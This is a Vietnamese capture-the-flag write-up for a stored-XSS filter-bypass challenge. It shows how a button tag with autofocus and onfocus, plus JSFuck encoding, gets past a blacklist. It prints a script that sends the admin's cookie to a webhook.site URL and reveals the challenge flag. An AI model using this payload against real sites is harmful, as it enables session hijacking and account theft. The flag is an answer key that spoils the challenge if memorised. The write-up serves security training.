



```diff
@@ Web-Client Challenge @@
```

## XSS - Stored - filter bypass [80 Points]

* Mục tiêu của challenge:  Ta sẽ phải để lại một payload XSS để khi **Administrator** đọc nó thì ta sẽ thu được cookie của admin

  

  ​

* Kiểm tra ta thấy trang web filter các ký tự như ```<script>``` , ```</script>``` hoặc các Event kích hoạt script inline như ```onerror```, ```onload```,.... khi chúng đi kèm dấu ```=``` ; Hoặc ngay cả các thuộc tính của ```document``` như ```document.location``` hay ```document.cookie``` ... Đều bị filter nghiêm ngặt

* Tuy nhiên các thẻ HTML thì lại có thể được chấp thuận

  

  ​

* Ta cần kích hoạt được XSS inline trong các thẻ HTML này khi các sự kiện bị block. Sau khi thử rất nhiều mà không được thì em quyết định tìm kiếm **Hint** thì em biết còn sự kiện ```onfocus``` của thẻ ```<button>``` bị bỏ quên bởi blacklist của trang web (chỉ duy nhất thẻ button này:) ). Tìm kiếm thêm thì còn có thuộc tính ```autofocus ``` giúp tự trigger sự kiện ```onfocus``` . Công việc còn lại là ẩn dấu script của chúng ta (các từ như ```document.cookie``` cần phải được mã hóa), ở đây em sử dụng **JSFUCK** và có thể bypass được

* Payload khai thác:

  Conver cái script này sang dạng Jsfuck: ```document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie)``` 

  Paste JsFuck trên vào tham số cho payload sau:

  ```<button autofocus onfocus=(eval)()></button>```

* Ta có kết quả như sau, cookie thu được chính là cookie của admin và là password của challenge này

  

  ​

* ```diff
  -- Flag: qa26f3ugb5tqv7o0mbvtv414u8
  ```